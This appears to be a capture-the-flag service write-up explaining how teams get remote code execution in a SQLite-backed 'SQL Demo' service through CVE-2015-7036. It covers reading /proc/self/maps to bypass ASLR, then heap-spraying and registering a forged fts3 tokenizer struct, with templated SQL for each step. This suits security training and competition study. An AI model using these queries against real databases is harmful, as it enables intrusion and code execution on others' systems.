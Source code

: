 # SQL Demo

The service provides network access to the SQLite in-memory database. Users can execute arbitrary SQL query and read arbitrary file via `.read <filename>`.
The checker puts every flag in new database with random name. Teams should get database names to steal flags.

The service is written on Python and forwards SQL queries to the latest non-modified SQLite library (v3.30.0-1). The primary way to hack the service is to get an RCE via SQL query.

# Vulnerability

The key thing to hack the service is to exploit known but still unfixed (for several years) vulnerability in SQLite ([CVE-2015-7036](https://nvd.nist.gov/vuln/detail/CVE-2015-7036)).

The intendent way to hack the service is to define specific `sqlite3_tokenizer_module` struct:
```
struct sqlite3_tokenizer_module {
  /*
  ** Structure version. Should always be set to 0.
  */
  int iVersion;
  /*
  ** Create a new tokenizer. The values in the argv[] array are the
  ** arguments passed to the "tokenizer" clause of the CREATE VIRTUAL
  ** TABLE statement that created the fts3 table. For example, if
  ** the following SQL is executed:
  **
  **   CREATE .. USING fts3( ... , tokenizer <tokenizer-name> arg1 arg2)
  **
  ** then argc is set to 2, and the argv[] array contains pointers
  ** to the strings "arg1" and "arg2".
  **
  ** This method should return either SQLITE_OK (0), or an SQLite error 
  ** code. If SQLITE_OK is returned, then *ppTokenizer should be set
  ** to point at the newly created tokenizer structure. The generic
  ** sqlite3_tokenizer.pModule variable should not be initialised by
  ** this callback. The caller will do so.
  */
  int (*xCreate)(
    int argc,                           /* Size of argv array */
    const char *const*argv,             /* Tokenizer argument strings */
    sqlite3_tokenizer **ppTokenizer     /* OUT: Created tokenizer */
  );
  /*
  ** Destroy an existing tokenizer. The fts3 module calls this method
  ** exactly once for each successful call to xCreate().
  */
  int (*xDestroy)(sqlite3_tokenizer *pTokenizer);
  /*
  ** Create a tokenizer cursor to tokenize an input buffer. The caller
  ** is responsible for ensuring that the input buffer remains valid
  ** until the cursor is closed (using the xClose() method). 
  */
  int (*xOpen)(
    sqlite3_tokenizer *pTokenizer,       /* Tokenizer object */
    const char *pInput, int nBytes,      /* Input buffer */
    sqlite3_tokenizer_cursor **ppCursor  /* OUT: Created tokenizer cursor */
  );
  /*
  ** Destroy an existing tokenizer cursor. The fts3 module calls this 
  ** method exactly once for each successful call to xOpen().
  */
  int (*xClose)(sqlite3_tokenizer_cursor *pCursor);
  /*
  ** Retrieve the next token from the tokenizer cursor pCursor. This
  ** method should either return SQLITE_OK and set the values of the
  ** "OUT" variables identified below, or SQLITE_DONE to indicate that
  ** the end of the buffer has been reached, or an SQLite error code.
  **
  ** *ppToken should be set to point at a buffer containing the 
  ** normalized version of the token (i.e. after any case-folding and/or
  ** stemming has been performed). *pnBytes should be set to the length
  ** of this buffer in bytes. The input text that generated the token is
  ** identified by the byte offsets returned in *piStartOffset and
  ** *piEndOffset. *piStartOffset should be set to the index of the first
  ** byte of the token in the input buffer. *piEndOffset should be set
  ** to the index of the first byte just past the end of the token in
  ** the input buffer.
  **
  ** The buffer *ppToken is set to point at is managed by the tokenizer
  ** implementation. It is only required to be valid until the next call
  ** to xNext() or xClose(). 
  */
  /* TODO(shess) current implementation requires pInput to be
  ** nul-terminated.  This should either be fixed, or pInput/nBytes
  ** should be converted to zInput.
  */
  int (*xNext)(
    sqlite3_tokenizer_cursor *pCursor,   /* Tokenizer cursor */
    const char **ppToken, int *pnBytes,  /* OUT: Normalized text for token */
    int *piStartOffset,  /* OUT: Byte offset of token in input buffer */
    int *piEndOffset,    /* OUT: Byte offset of end of token in input buffer */
    int *piPosition      /* OUT: Number of tokens returned before this one */
  );
};
```

Teams should craft this struct in the heap memory and pass the pointer to it via `SELECT fts3_tokenizer('main', x'<sqlite3_tokenizer_module address>');` to get an RCE.

To exploit the vulnerability teams should bypass the ASLR. There are several ways to do it:
* via `.read /proc/self/maps` query
* via `.thumbprint` query

Attack scenario:
1. Calculate addresses to bypass an ASLR
2. Craft `sqlite3_tokenizer_module` struct in the heap via
   ```
   SELECT replace(hex(zeroblob(10000)), '00', x'0000000000000000<xCreate function address><xDestroy function address><xOpen function address><xClose function address><xNext function address>');
   ```
3. Define new fts3-tokenizer via `SELECT fts3_tokenizer('main', x'<crafted sqlite3_tokenizer_module address>');`
4. Trigger code execution via overrided `xCreate` (`CREATE VIRTUAL TABLE t USING fts3(tokenize=<tokenizer name>);`) or `xDestroy` (`DROP TABLE t;`)

The exploit can be found at [/sploits/sql_demo/sql_demo.sploit.py](../../sploits/sql_demo/sql_demo.sploit.py).
